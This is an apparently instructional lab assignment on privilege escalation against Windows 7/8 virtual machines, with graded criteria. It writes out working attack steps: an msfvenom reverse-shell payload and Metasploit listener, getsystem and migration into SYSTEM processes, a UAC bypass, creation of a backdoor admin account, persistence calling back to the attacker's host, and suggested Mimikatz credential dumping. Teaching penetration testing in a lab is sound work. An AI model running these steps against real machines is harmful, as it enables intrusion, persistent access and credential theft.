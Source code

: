 **Privilege Escalation Task**

**Objective**  
Escalate privileges on a Windows 7 or Windows 8 machine by identifying vulnerabilities and exploiting them to gain administrator or system-level access.

**Requirements**  
- Kali Linux virtual machine (Metasploit, PowerSploit, and Windows Exploit Suggester)
- Windows 7 or Windows 8 virtual machine (standard user account)
- Virtual environment (VirtualBox or VMware with NAT/Host-Only Network)
- Required tools:
  - Metasploit Framework
  - Windows Exploit Suggester
  - PowerShell scripts (PowerUp, Invoke-AllChecks)

---

### **Part 1: Gaining Initial Access**

1. **Generate a Meterpreter Reverse Shell Payload** using msfvenom:
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe > shell.exe
   ```
2. **Deliver the Payload** to the Windows machine through any method such as:
   - USB drive (simulated)
   - Social engineering (simulated)
   - Execution via PowerShell
3. **Set Up a Listener in Metasploit:**
   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Kali_IP>
   set LPORT 4444
   exploit -j
   ```
4. **Execute the Payload on Windows 7/8** and establish a connection.

---

### **Part 2: Privilege Escalation**

#### **Step 1: Identify Privileges**
Inside Meterpreter, check the current user:
```
getuid
```
Check system information:
```
sysinfo
```

#### **Step 2: Use Automated Privilege Escalation Tools**

**Option 1: Metasploit GetSystem**
```
use post/windows/escalate/getsystem
run
```

**Option 2: Migrate to a High-Privilege Process**
1. List running processes:
   ```
   ps
   ```
2. Identify a process owned by SYSTEM (e.g., winlogon.exe, lsass.exe).
3. Migrate into the process:
   ```
   migrate <PID>
   ```
4. Verify privilege level:
   ```
   getuid
   ```

**Option 3: PowerShell Privilege Escalation (Manual)**
1. Upload and execute PowerUp:
   ```
   upload /usr/share/windows-resources/powerup.ps1 C:\\Users\\Public\\powerup.ps1
   ```
   ```
   powershell -ExecutionPolicy Bypass -File C:\\Users\\Public\\powerup.ps1
   ```
2. Identify misconfigured services, unquoted service paths, or DLL hijacking opportunities.

#### **Step 3: Exploit a Local Vulnerability**
1. On Kali, download the Windows Exploit Suggester:
   ```
   git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
   ```
2. Collect Windows system information:
   ```
   systeminfo > win7info.txt
   ```
3. Run the exploit suggester:
   ```
   python windows-exploit-suggester.py -i win7info.txt -d exploits.csv
   ```
4. Identify a suitable exploit (e.g., CVE-2016-0099) and execute it.

#### **Step 4: Bypass UAC (User Account Control)**
If the user is in the Administrators group but blocked by UAC, try:
```
use exploit/windows/local/bypassuac
set SESSION 1
exploit
```

---

### **Part 3: Post-Exploitation**

1. **Create a New Admin User:**
   ```
   net user hacker P@ssw0rd /add
   net localgroup administrators hacker /add
   ```
2. **Set Up Persistence:**
   ```
   run persistence -U -i 5 -p 4444 -r <Kali_IP>
   ```

---

### **Evaluation Criteria**
You will be assessed based on the following criteria:
- Successfully gaining initial access to the Windows 7/8 machine.
- Using at least two different privilege escalation techniques.
- Documenting each step taken and explaining obstacles encountered.
- Demonstrating post-exploitation tasks such as creating a new user and establishing persistence.

---

### **Bonus Challenges**
- Exploit unquoted service paths.
- Perform DLL hijacking.
- Set up scheduled tasks for persistence.
- Use Mimikatz for credential dumping.
